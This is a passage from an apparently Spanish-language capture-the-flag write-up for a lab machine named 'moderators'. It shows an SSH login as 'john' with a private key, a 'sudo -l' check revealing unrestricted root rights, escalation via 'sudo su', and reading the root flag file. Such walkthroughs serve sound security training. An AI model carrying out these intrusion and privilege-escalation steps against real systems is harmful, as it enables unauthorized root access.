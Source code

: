 Pruebo si es la contraseña de john y si tengo privilegios a nivel de sudoers

```null
ssh john@10.10.11.173 -i id_rsa
Last login: Fri Feb  3 13:34:27 2023 from 10.10.14.7
john@moderators:~$ export TERM=xterm
john@moderators:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on moderators:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on moderators:
    (root) ALL
john@moderators:~$ 
```

Como puedo ejecutar cualquier comando como el usuario root, spawneo una bash y visualizo la segunda flag

```null
john@moderators:~$ sudo su
root@moderators:/home/john# cat /root/root.txt
b5c031654e91223edc1a2ab50415b312
```
